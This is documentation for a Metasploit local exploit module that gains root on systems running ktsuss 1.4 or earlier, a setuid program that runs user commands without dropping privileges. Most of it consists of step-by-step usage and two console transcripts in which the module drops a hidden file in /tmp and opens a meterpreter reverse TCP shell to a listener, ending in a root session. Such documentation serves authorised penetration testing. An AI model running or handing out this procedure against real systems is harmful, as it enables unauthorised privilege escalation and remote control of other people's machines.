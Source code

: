 ## Description

  This module attempts to gain root privileges by exploiting
  a vulnerability in ktsuss versions 1.4 and prior.

  The `ktsuss` executable is setuid `root` and does not drop
  privileges prior to executing user specified commands,
  resulting in command execution with `root` privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * ktsuss 1.3 on SparkyLinux 6 (2019.08) (LXQT) (x64)
  * ktsuss 1.3 on SparkyLinux 5.8 (LXQT) (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/ktsuss_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **KTSUSS_PATH**

  Path to `ktsuss` executable (default: `/usr/bin/ktsuss`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### ktsuss 1.3 on SparkyLinux 5.8 (LXQT) (x64)

  ```
  msf5 > use exploit/linux/local/ktsuss_suid_priv_esc 
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > check

  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1001(test) euid=0(root) groups=1001(test)
  [+] The target is vulnerable.
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1001(test) euid=0(root) groups=1001(test)
  [*] Writing '/tmp/.lBanpIYpAJ60cwt' (389 bytes) ...
  [*] Executing payload ...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.137

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.137:53060) at 2019-08-19 09:18:29 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.137
  OS           : Sparky 5.8 (Linux 4.19.0-5-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### ktsuss 1.3 on SparkyLinux 6 (2019.08) (LXQT) (x64)

  ```
  msf5 > use exploit/linux/local/ktsuss_suid_priv_esc 
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > check

  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1002(test) euid=0(root) groups=1002(test)
  [+] The target is vulnerable.
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1002(test) euid=0(root) groups=1002(test)
  [*] Writing '/tmp/.R0aTPpB8aHk' (389 bytes) ...
  [*] Executing payload ...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.167

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.167:44534) at 2019-08-19 09:25:48 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.167
  OS           : Sparky 6 (Linux 4.19.0-5-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

